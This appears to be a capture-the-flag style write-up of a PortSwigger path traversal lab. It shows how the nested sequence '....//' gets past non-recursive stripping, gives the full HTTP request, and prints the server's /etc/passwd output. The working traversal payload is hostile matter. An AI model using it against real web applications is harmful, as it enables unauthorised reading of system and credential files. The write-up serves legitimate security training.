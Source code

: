 # [Lab 3: File path traversal, traversal sequences stripped non-recursively](https://portswigger.net/web-security/file-path-traversal/lab-sequences-stripped-non-recursively)

---

## Description

This lab contains a [file path traversal](https://portswigger.net/web-security/file-path-traversal) vulnerability in the display of product images.

The application strips [path traversal](https://portswigger.net/web-security/file-path-traversal) sequences from the user-supplied filename before using it.

To solve the lab, retrieve the contents of the `/etc/passwd` file.

---

## Solution

View the page source of `/` and note that each product's image is rendered via an `img` take with the `src` attribute set to `/image?filename=$FILENAME`. According to the challenge description, `$FILENAME` is stripped of path traversal sequences like `../` or `..\` before being used in any file system operations on the backend.

But according to the challenge's title, the path traversal sequence stripping isn't recursive. Thus, embedding a path traversal sequence within another will cause one of them to remain after the stripping. Attempt to request the following filename: `../../../etc/passwd` with embedded traversal sequences.

```http
GET /image?filename=....//....//....//etc/passwd HTTP/1.1
Host: ac8e1fc41ed459c5806e42550011009c.web-security-academy.net
Cookie: session=qWMAqkQ1f4vFvRQj8cCLgAhsoWMiaKZk
User-Agent: Mozilla/5.0 (Windows NT 10.0; rv:78.0) Gecko/20100101 Firefox/78.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Dnt: 1
Upgrade-Insecure-Requests: 1
Sec-Gpc: 1
Pragma: no-cache
Cache-Control: no-cache
Te: trailers
Connection: close
```

```txt
HTTP/1.1 200 OK
Content-Type: image/jpeg
Connection: close
Content-Length: 1205

root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
_apt:x:100:65534::/nonexistent:/usr/sbin/nologin
peter:x:2001:2001::/home/peter:/bin/bash
carlos:x:2002:2002::/home/carlos:/bin/bash
user:x:2000:2000::/home/user:/bin/bash
elmer:x:2099:2099::/home/elmer:/bin/bash
dnsmasq:x:101:65534:dnsmasq,,,:/var/lib/misc:/usr/sbin/nologin
messagebus:x:102:101::/nonexistent:/usr/sbin/nologin
```
